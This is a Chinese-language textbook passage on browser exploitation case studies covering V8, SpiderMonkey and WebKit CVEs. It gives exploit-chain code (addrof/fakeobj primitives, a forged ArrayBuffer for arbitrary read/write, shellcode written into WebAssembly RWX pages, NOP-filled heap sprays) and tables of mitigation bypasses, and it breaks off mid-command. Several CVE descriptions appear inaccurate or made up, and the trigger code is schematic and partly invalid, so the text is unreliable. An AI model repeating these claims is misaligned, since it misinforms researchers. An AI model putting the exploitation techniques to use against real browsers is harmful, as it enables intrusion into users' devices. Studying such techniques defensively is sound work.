








## 31.9 浏览器漏洞利用案例

浏览器漏洞利用是安全研究中技术门槛最高的领域之一。它要求研究者同时精通JavaScript引擎内部实现、内存管理机制、操作系统安全原语以及编译器优化理论。本节通过三个真实CVE案例，从V8类型混淆、SpiderMonkey UAF到WebKit回归漏洞，系统展示浏览器漏洞从发现到利用的完整攻防链路。

在阅读本节之前，建议先回顾31.3节中关于浏览器安全架构、JavaScript引擎对象模型和JIT编译器原理的基础知识——实战案例中的每一个利用步骤都建立在那些理论基础之上。

### 31.9.1 浏览器漏洞利用通用方法论

在深入具体案例之前，有必要先建立一套通用的浏览器漏洞利用方法论框架。无论目标是哪个浏览器引擎，利用流程都遵循相似的阶段模型：



**各阶段核心挑战：**

| 阶段 | 核心挑战 | 常用技术 | 难度等级 |
|------|---------|---------|---------|
| 漏洞触发 | 精确命中特定代码路径 | Fuzzing、手动审计、符号执行 | ★★★☆☆ |
| 原语构建 | 从内存Corruption到可控读写 | 类型混淆、OOB、UAF | ★★★★☆ |
| 对象伪造 | 绕过对象布局验证 | 虚假对象喷射、内联缓存污染 | ★★★★☆ |
| 信息泄露 | 克服ASLR和指针压缩 | 布局预测、Partial Overwrite | ★★★★★ |
| 代码执行 | 在受限环境中执行shellcode | JIT Spray、ROP、WebAssembly | ★★★★★ |
| 沙箱逃逸 | 突破进程隔离边界 | IPC漏洞、内核漏洞、GPU驱动 | ★★★★★ |

### 31.9.2 Chrome V8类型混淆 — CVE-2021-30554

#### 漏洞背景

CVE-2021-30554是Google Chrome V8 JavaScript引擎中的一个高危类型混淆漏洞，由Google Threat Analysis Group (TAG)于2021年6月报告。该漏洞存在于V8处理`Array.prototype.concat`操作的优化编译器TurboFan中，属于JIT优化阶段引入的类型推断错误。Google在2021年6月9日发布Chrome 91.0.4472.101版本修复此漏洞，并在安全公告中将其严重性评为"High"。值得注意的是，该漏洞在修复前已被发现存在野外利用（in-the-wild exploitation），这使得它成为一个典型的"0-day → 1-day"研究案例。

**影响范围：** Chrome 91.0.4472.77及更早版本，以及所有基于Chromium的浏览器（Edge、Opera、Brave等）。

#### 漏洞原理深度分析

V8的TurboFan优化编译器在处理`Array.prototype.concat`时，会进行**类型反馈（Type Feedback）**收集和**逃逸分析（Escape Analysis）**。问题的核心在于：当`concat`操作的源数组和目标数组在类型反馈阶段被记录为`PACKED_DOUBLE_ELEMENTS`（双精度浮点数组）时，TurboFan会生成高度优化的机器码——但该优化路径在某些边界条件下未能正确验证数组的元素类型是否在优化后仍然保持一致。



**关键漏洞机制：**

TurboFan在优化`Array.prototype.concat`时，生成的机器码假设`concat`的结果数组与源数组具有相同的元素类型。然而，当满足以下条件时，这个假设被打破：

1. 源数组是`PACKED_DOUBLE_ELEMENTS`类型
2. 通过原型链污染或特殊构造，使`concat`操作在执行期间改变结果数组的元素类型
3. 优化后的代码仍然以`Double`类型访问已经变为`Object`类型的数据

这种类型混淆使得攻击者可以用浮点数的形式读写64位的对象指针，从而构建出基本的内存读写原语。

#### 利用链构建详解

**第一阶段：构建addrof原语（地址泄露）**

```javascript
// V8对象在堆中以指针压缩格式存储
// 压缩指针: 32位 = (tagged_value >> 2) + base
// 加载为Double时: 64位 = 两个相邻的32位压缩指针

// 步骤1: 构造类型混淆
var arr = [1.1, 2.2, 3.3];  // PACKED_DOUBLE_ELEMENTS
var obj_arr = [{}];           // PACKED_ELEMENTS (Object数组)

// 触发TurboFan优化
for (var i = 0; i < 0x10000; i++) {
    Array.prototype.concat.call(arr, obj_arr);
}

// 步骤2: 利用类型混淆读取对象地址
var target = {a: 1.23456789};  // 目标对象
arr[0] = target;                 // 通过混淆的写入操作
// 此时arr[0]以Double形式存储了target的指针
// 由于指针压缩，一个压缩指针占32位
// 两个压缩指针刚好组成一个64位Double

// 读取为Double值，再转换回整数得到地址
var addr_as_double = arr[0];
var compressed_addr = f2i(addr_as_double);  // f2i: Float64转Int64
// compressed_addr的高32位包含目标对象的压缩指针
```

**第二阶段：构建fakeobj原语（伪造对象）**

```javascript
// fakeobj: 在任意内存地址"伪造"一个JSObject
// 原理: 将目标地址写入类型混淆的数组
// 引擎将该地址当作JSObject指针来访问

function fakeobj(addr) {
    // 将地址转换为Double
    arr[0] = i2f(addr);  // i2f: Int64转Float64
    // 通过类型混淆，引擎将Double值当作Object指针
    // 返回指向该"虚假对象"的引用
    return obj_arr[0];    // obj_arr被混淆为Double数组
}

// 验证: fakeobj构造的对象可以通过属性访问实现任意读写
var fake = fakeobj(target_addr);
fake.a;  // 读取target_addr处的内存
```

**第三阶段：构建任意读写原语**

```javascript
// 利用addrof + fakeobj构造任意读写
// 核心思想: 伪造一个ArrayBuffer对象，修改其backing_store指针

function create_arb_readwrite() {
    // 正常ArrayBuffer的内存布局:
    // +0x00: Map pointer (描述对象类型)
    // +0x08: Properties pointer
    // +0x10: Elements pointer
    // +0x18: ByteLength (ArrayBuffer长度)
    // +0x20: BackingStore (指向实际数据的指针)
    // +0x28: AllocationBase
    
    var real_ab = new ArrayBuffer(0x100);  // 正常ArrayBuffer
    var real_view = new DataView(real_ab);
    
    // 读取ArrayBuffer在堆中的地址
    var ab_addr = addrof(real_ab);
    
    // 伪造一个ArrayBuffer，只修改backing_store字段
    var fake_ab_addr = ab_addr + 0x18;  // 指向ByteLength字段
    
    // 通过类型混淆，修改backing_store为任意地址
    // 此处利用的是：两个连续的Object指针
    // 被当作一个Double读取后可以被精确覆写
    
    // 修改后的backing_store指向攻击者控制的地址
    // 通过DataView读写即可实现任意内存访问
    real_view.setBigUint64(0, BigInt(target_read_addr), true);
    // 此时DataView读取的数据来自target_read_addr
}
```

**第四阶段：代码执行**

获得任意读写原语后，最终目标是获取代码执行权。V8中主要的代码执行路径有三条：



最常用的是路径2——WebAssembly的RWX（Read-Write-Execute）页面：

```javascript
// 利用WebAssembly获取RWX内存页
var wasm_code = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d,  // WASM magic number
    0x01, 0x00, 0x00, 0x00,  // version
    // ... 最小化的WASM模块字节码
]);
var wasm_module = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_module);

// wasm_instance导出的函数内部代码位于RWX页
// 通过任意读写原语找到该RWX页的地址
// 覆写其中的机器码为攻击者的shellcode
var wasm_func_addr = addrof(wasm_instance.exports.f);
// 从函数对象中提取代码指针
// 覆写RWX页上的机器码
```

#### V8安全缓解措施与绕过

现代V8引擎部署了多层防御机制，每一层都对利用构成了额外挑战：

| 缓解措施 | 保护机制 | 绕过方法 | 引入版本 |
|---------|---------|---------|---------|
| Pointer Compression | 64位指针压缩为32位 | Partial Overwrite + 信息泄露 | Chrome 80 |
| V8 Sandbox | 将V8堆隔离在固定地址空间内 | 利用Isolate逃逸或IPC漏洞 | Chrome 120+ |
| Sandboxed Pointers | 指针必须指向沙箱内部 | 虚假对象绕过 | Chrome 127+ |
| **Pointer Authentication** | ARM64指针签名验证 | 利用认证侧信道或未签名区域 | Chrome 117+ |
| **Heap Guard Pages** | 堆边界保护页 | 不可绕过（需选择其他攻击路径） | Chrome 113+ |

**关键缓解措施详解：**

**1. V8 Sandbox（V8堆沙箱）**

V8 Sandbox将整个V8堆限制在一个固定大小（默认128GB）的虚拟地址空间窗口内。所有V8对象指针（tagged pointers）都必须指向这个窗口内部。这使得经典的"任意地址伪造对象"技术无法直接使用——攻击者不能在沙箱外部的地址构造虚假对象。

**绕过策略：** V8 Sandbox的限制主要针对`fakeobj`原语。攻击者转而利用沙箱内部的内存布局可预测性，通过以下方式绕过：
- 利用`ArrayBuffer`的`backing_store`可以指向沙箱外部的特性（这是设计上的允许，因为backing_store是untagged指针）
- 通过IPC消息中的共享内存建立沙箱外部的读写通道
- 利用`WritableJitCode`等受信类型在沙箱外分配RWX内存

**2. Pointer Compression（指针压缩）**

V8使用指针压缩将64位指针压缩为32位，高位通过base address恢复。这使得直接修改指针变得更加困难，因为：
- 不能直接用64位整数覆写指针
- 需要理解压缩/解压缩的精确算法
- Partial Overwrite只能修改指针的低32位

#### 漏洞发现方法

该漏洞可以通过以下方法发现：

```bash
# 1. Fuzzing (使用Domato或自定义V8 fuzzer)
# 编译V8的debug版本进行fuzzing
cd v8
tools/dev/gm.py x64.debug
# 使用d8 shell运行fuzzing脚本
./out/x64.debug/d8 --fuzzing-binary=fuzzer_binary

# 2. 手动审计 (聚焦于Array.prototype方法)
# 重点关注TurboFan的TypeOracle::kArrayPrototypeConcat函数
# 以及相关的类型推断逻辑

# 3. Patch Diff (对比修复前后的代码差异)
# 从V8 Git获取修复commit
git log --oneline --all | grep -i "concat\|type confusion"
# 对比diff定位关键修改
git show <commit_hash>
```

### 31.9.3 Firefox SpiderMonkey — CVE-2022-26485

#### 漏洞背景

CVE-2022-26485是Mozilla Firefox SpiderMonkey JavaScript引擎中的一个高危Use-After-Free漏洞。该漏洞存在于SpiderMonkey处理XML文档的`removeNamedElement`操作中。当从XML文档中移除命名元素时，引擎未正确处理元素的生命周期，导致已释放的内存仍被引用。该漏洞于2022年2月被发现并报告，影响Firefox 96及更早版本。

该漏洞与CVE-2022-26486（WMF Player相关UAF）同时被披露，两者组合可在Windows平台上实现远程代码执行。

#### 漏洞原理深度分析

SpiderMonkey在处理XML文档时使用了一种名为`JSObject`的内部表示来存储XML元素。当调用`removeNamedElement`移除一个命名元素时，该元素对应的`JSObject`被标记为已释放（通过SpiderMonkey的GC机制），但XML文档内部的数据结构中仍然保留着指向该对象的引用（悬空指针）。



**漏洞触发代码（简化）：**

```javascript
// 1. 创建XML文档并添加元素
var xml = new XMLDocument('<root><item id="1"/></root>');
var element = xml.getElementById("1");

// 2. 触发removeNamedElement
// 将元素从文档中移除
xml.removeChild(element);
// 此时element对应的JSObject已被GC标记为可回收
// 但xml内部仍保留对element的引用

// 3. 触发GC，释放element的内存
for (var i = 0; i < 0x10000; i++) {
    // 大量分配触发GC
    new Array(0x1000);
}

// 4. 堆喷射，占据已释放的内存位置
var spray = [];
for (var i = 0; i < 0x1000; i++) {
    var obj = {type: "spray", data: new ArrayBuffer(0x100)};
    spray.push(obj);
}

// 5. 通过xml的悬空引用访问被喷射占据的内存
// 以XML元素的操作方式访问新对象 → 类型混淆
```

#### 堆喷射与利用技术

**SpiderMonkey堆喷射技术：**

在Firefox/SpiderMonkey环境中，堆喷射需要考虑SpiderMonkey特定的内存分配器行为：

| 喷射技术 | 原理 | 优势 | 劣势 |
|---------|------|------|------|
| ArrayBuffer喷射 | 大量分配ArrayBuffer占据固定大小内存块 | 数据布局可控 | 触发GC可能干扰 |
| String喷射 | 使用Netscape Decoder分配特定大小字符串 | 稳定性好 | 数据不可控 |
| JSObject喷射 | 分配具有特定属性数量的对象 | 与目标类型匹配 | 大小控制困难 |
| TypedArray喷射 | 使用Uint8Array/Float64Array | 读写能力强 | 内存开销大 |

**最佳实践——ArrayBuffer + Spray Pattern组合：**

```javascript
// 精确控制堆布局的喷射方法
function heap_spray(target_size, marker_value) {
    var spray_blocks = [];
    var block_count = 0x1000;  // 分配大量块
    
    for (var i = 0; i < block_count; i++) {
        // 每个块大小精确匹配已释放的内存块
        var buf = new ArrayBuffer(target_size);
        var view = new Uint32Array(buf);
        
        // 在块头部写入标记值，便于识别
        view[0] = 0x41414141;  // 'AAAA'
        view[1] = marker_value;
        // 后续填充NOP滑行区
        for (var j = 2; j < view.length; j++) {
            view[j] = 0x90909090;  // NOP
        }
        
        spray_blocks.push(buf);
    }
    
    return spray_blocks;
}
```

#### 信息泄露与代码执行路径

获得UAF触发后的类型混淆，需要进一步构建信息泄露来克服ASLR：



**Firefox特有的利用挑战：**

1. **GC调度困难：** SpiderMonkey的GC不如V8可预测，需要大量实验找到稳定的GC触发时机
2. **堆隔离：** Firefox使用不同大小的堆分区，喷射需要匹配目标分区
3. **WASM保护：** Firefox较早版本对WASM内存页的保护不如Chrome严格，但后续版本已加强
4. **内存布局随机化：** Firefox使用更积极的堆随机化策略

#### 修复方案分析

Mozilla在修复该漏洞时采取了以下措施：

```cpp
// 修复前（伪代码）
void removeNamedElement(JSContext* cx, Element* elem) {
    // 只释放元素内存，未清理文档内部引用
    elem->finalize();
    // BUG: m_namedElements 中仍有 elem 的引用
}

// 修复后（伪代码）
void removeNamedElement(JSContext* cx, Element* elem) {
    // 1. 先清理文档内部所有引用
    m_namedElements.remove(elem->id());
    m_elementById.remove(elem->id());
    
    // 2. 然后释放元素内存
    elem->finalize();
    
    // 3. 增加引用计数检查
    MOZ_ASSERT(elem->refCount() == 0);
}
```

### 31.9.4 Safari WebKit — CVE-2022-22620

#### 漏洞背景

CVE-2022-22620是WebKit引擎中的一个"幽灵漏洞"（Ghost Vulnerability），这是一个极为罕见且具有教学意义的案例。该漏洞最初在2013年被发现并修复（CVE-2013-2871），但在2020年的代码重构过程中，修复补丁被意外回退，导致漏洞在WebKit代码库中"复活"。该漏洞影响Safari 15及更早版本，以及所有基于WebKit的iOS应用（所有iOS浏览器和WebView应用均使用WebKit内核）。

由于iOS上所有浏览器都强制使用WebKit引擎，该漏洞的影响范围覆盖了整个iOS生态系统的浏览器应用，包括Chrome iOS、Firefox iOS、Safari等。

#### 漏洞原理：Zombie Document UAF

WebKit中的"zombie document"（僵尸文档）是一种特殊状态：当一个文档被从视图层级中移除后，它不应该再被JavaScript访问，但内部数据结构中可能仍保留对该文档的引用。

```mermaid
stateDiagram-v2
    [*] --> Active: 创建文档
    Active --> Active: 正常操作
    Active --> Zombie: 从视图移除
    Zombie --> Zombie: 等待GC回收
    Zombie --> Free: GC释放内存
    Free --> Reallocated: 新对象占据
    Note right of Zombie: 关键Bug:<br/>Zombie状态下<br/>仍有外部引用
    Note right of Free: 释放后被重分配<br/>→ UAF触发
```

**漏洞触发流程：**

```javascript
// 1. 创建一个iframe，加载目标页面
var iframe = document.createElement('iframe');
document.body.appendChild(iframe);

// 2. 在iframe中创建一个document对象
var zombie_doc = iframe.contentDocument;

// 3. 触发zombie状态
// 通过特定的DOM操作序列使文档进入zombie状态
// 但iframe仍保留对zombie_doc的引用
iframe.remove();  // 移除iframe，文档变为zombie

// 4. 触发GC，释放zombie document
// 通过大量内存分配迫使GC回收
triggerGC();

// 5. 堆喷射占据释放的内存
// 使用JavaScript对象占据zombie document的位置

// 6. 通过iframe.contentDocument的悬空引用
// 访问被重新分配的内存 → 类型混淆
```

#### WebKit特有利用技术

WebKit引擎有一些独特的利用技术，使其与V8和SpiderMonkey的利用方式有所不同：

**1. GCProtectedAllocator机制**

WebKit使用`GCProtectedAllocator`来保护某些关键对象不被GC过早回收。攻击者需要理解并绕过这一机制：

```text
WebKit GC保护层级:
┌─────────────────────────────────────┐
│  GC-Protected Objects               │
│  (当前活跃的JS对象引用)              │
├─────────────────────────────────────┤
│  Marked Objects                     │
│  (GC标记阶段标记的对象)              │
├─────────────────────────────────────┤
│  Unmarked Objects                   │
│  (即将被回收的对象)                  │
└─────────────────────────────────────┘

绕过策略: 在GC标记完成后、清除之前
精确插入新对象占据已清除的内存
```

**2. Gigacage绕过**

WebKit使用Gigacage技术将JavaScript对象分配在一个大的虚拟内存区域中。这使得传统的跨对象伪造变得更加困难：

| 绕过策略 | 原理 | 成功率 |
|---------|------|-------|
| Gigacage内部布局利用 | 利用Gigacage内部的可预测布局 | 中等 |
| Gigacage外部分配 | 利用不受Gigacage保护的分配路径 | 较高 |
| Gigacage元数据覆写 | 修改Gigacage的分配器元数据 | 低（防御强） |

**3. JIT代码页利用**

WebKit的JIT代码页使用W^X（Write XOR Execute）保护，即内存页要么可写要么可执行，不能同时具有两种属性。绕过方式包括：

```javascript
// 绕过W^X的经典方法:
// 1. 利用JIT代码页的双重映射（dual mapping）
//    某些JIT实现将同一块物理内存映射为两个虚拟地址:
//    - 一个可执行（用于运行JIT代码）
//    - 一个可写（用于修改代码内容）
//    通过修改可写映射来改变可执行映射中的代码

// 2. 利用WebAssembly的代码生成机制
//    WASM代码的编译过程中存在短暂的RW窗口
//    在这个窗口内写入shellcode

// 3. 利用JavaScript对象的函数指针
//    通过覆写JSFunction对象的内部代码指针
//    使其指向攻击者控制的代码
```

#### iOS生态的特殊挑战

由于iOS上所有浏览器应用都使用WebKit内核，该漏洞的影响范围比通常的浏览器漏洞更广：



这意味着攻击者只需要一个恶意网页，就能通过iOS上的任何浏览器应用触发该漏洞——即使用户没有使用Safari。

### 31.9.5 三大引擎漏洞对比分析

| 对比维度 | Chrome V8 | Firefox SpiderMonkey | Safari WebKit |
|---------|-----------|---------------------|---------------|
| 漏洞类型 | 类型混淆 | Use-After-Free | UAF (回归漏洞) |
| 漏洞位置 | TurboFan优化编译器 | XML处理模块 | Zombie Document处理 |
| 触发条件 | 特殊Array.concat操作 | XML元素移除+GC | iframe操作+GC |
| 堆喷射难度 | 中等 | 较高（GC不确定） | 中等（GC可控性好） |
| 沙箱模型 | 多进程+seccomp-bpf | 多进程+seatbelt | 多进程+App Sandbox |
| 主要防御 | V8 Sandbox, 指针压缩 | 堆随机化, GC保护 | Gigacage, W^X |
| 代码执行路径 | WASM RWX页 | JIT覆写 | Dual Mapping |
| 野外利用难度 | ★★★★☆ | ★★★★☆ | ★★★★★ |
| 影响范围 | Chromium全系列 | Firefox全系列 | iOS全生态 |

### 31.9.6 浏览器漏洞研究工具链

进行浏览器漏洞研究需要一套完整的工具链：



**核心工具详解：**

| 工具 | 用途 | 获取方式 |
|------|------|---------|
| V8 d8 shell | V8引擎交互式调试Shell | 编译V8源码获取 |
| SpiderMonkey js shell | SpiderMonkey交互式Shell | 编译Firefox源码获取 |
| AddressSanitizer (ASan) | 内存错误检测 | GCC/Clang编译选项: `-fsanitize=address` |
| WebKit Debug Build | Safari调试版本 | 编译WebKit源码获取 |
| Pwntools | 漏洞利用Python库 | `pip install pwntools` |
| Frida | 动态插桩框架 | `pip install frida-tools` |
| Valgrind | 内存错误检测 | `apt install valgrind` |

**V8调试环境搭建：**

```bash
# 1. 获取V8源码
fetch v8  # depot_tools中的fetch工具
cd v8

# 2. 编译debug版本（带符号信息）
tools/dev/gm.py x64.debug

# 3. 使用debug版本运行漏洞触发代码
./out/x64.debug/d8 --allow-natives-syntax exploit.js

# 4. 启用V8的内部检查
./out/x64.debug/d8 --expose-gc --allow-natives-syntax \
